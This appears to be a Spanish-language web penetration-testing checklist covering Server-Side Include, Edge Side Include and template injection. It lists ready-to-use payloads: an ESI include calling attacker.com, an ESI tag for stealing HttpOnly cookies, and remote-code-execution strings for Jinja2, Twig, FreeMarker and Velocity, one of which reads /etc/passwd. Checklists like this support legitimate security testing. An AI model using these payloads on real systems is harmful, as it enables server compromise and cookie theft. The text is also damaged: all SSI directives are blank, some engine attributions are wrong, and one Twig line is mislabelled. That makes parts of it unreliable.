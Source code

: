 - [ ] **Identificación:**
    - [ ] Buscar páginas con extensiones `.shtml`, `.shtm`, `.stm`.
    - [ ] Inyectar directivas SSI en campos de entrada que se reflejen en la página:
        - [ ] ``
        - [ ] ``
        - [ ] `` (Linux)
        - [ ] `` (Windows)
- [ ] **Explotación:**
    - [ ] Ejecutar comandos del OS.
    - [ ] Leer archivos (`` o `file="key.txt"`).
    - [ ] Obtener información del servidor.

#### Edge Side Includes (ESI) Injection

- [ ] **Identificación:**
    - [ ] Buscar cabeceras como `Surrogate-Control`, `X-ESI-Enabled`, `Edge-Control`.
    - [ ] Inyectar tags ESI en puntos de entrada reflejados:
        - [ ] `<esi:include src="http://attacker.com/"/>` (para SSRF o XSS).
        - [ ] `<esi:vars>$(HTTP_COOKIE)</esi:vars>` (para exfiltrar cookies, incluyendo HttpOnly).
        - [ ] `<esi:comment text="TEST"/>`
- [ ] **Explotación:**
    - [ ] XSS, CSRF.
    - [ ] Robo de cookies (incluyendo HttpOnly).
    - [ ] SSRF.
    - [ ] DoS.

#### Server-Side Template Injection (SSTI)

- [ ] **Identificación:**
    - [ ] Buscar parámetros que se reflejen en la página, especialmente si usan plantillas (ej. personalización de emails, mensajes de error).
    - [ ] Probar payloads de plantilla comunes:
        - [ ] `{7*7}` (Jinja2, Twig) -> `49`
        - [ ] `${7*7}` (FreeMarker, Velocity) -> `49`
        - [ ] `{{7*'7'}}` (Jinja2, si * es concatenación) -> `7777777`
        - [ ] `#{7*7}` (Jade/Pug) -> `49`
        - [ ] `%{7*7}`
        - [ ] Si hay un error, puede revelar el motor de plantillas.
    - [ ] Usar un diagrama de flujo para identificar el motor (ej. el de PortSwigger).
- [ ] **Explotación (varía según el motor):**
    - [ ] **Jinja2 (Python):**
        - [ ] Acceder al objeto `request` o `config`.
        - [ ] `{{ config }}`
        - [ ] RCE: `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}`
        - [ ] `{{ ''.__class__.__mro__[1].__subclasses__()[<index_de_os._wrap_close>].__init__.__globals__['popen']('id').read() }}` (buscar el índice correcto)
    - [ ] **Twig (PHP):**
        - [ ] Info Disclosure: `{{_self.env.display("index.html")}}`
        - [ ] LFI: `{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id") }}` (luego usar `{{ "id"|id }}`)
        - [ ] RCE: `{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id") }}` y luego `{{ "cat /etc/passwd"|id }}` (si `exec` está permitido).
    - [ ] **FreeMarker (Java):**
        - [ ] RCE: `<#assign ex="freemarker.template.utility.Execute"?new()>${ ex("id") }`
    - [ ] **Velocity (Java):**
        - [ ] RCE: `#set($x="");#set($rt=$x.class.forName("java.lang.Runtime"));#set($cr=$rt.getRuntime());$cr.exec("id")`
- [ ] **Herramientas Automatizadas:** Tplmap (`tplmap -u <URL_con_param_vulnerable>`).
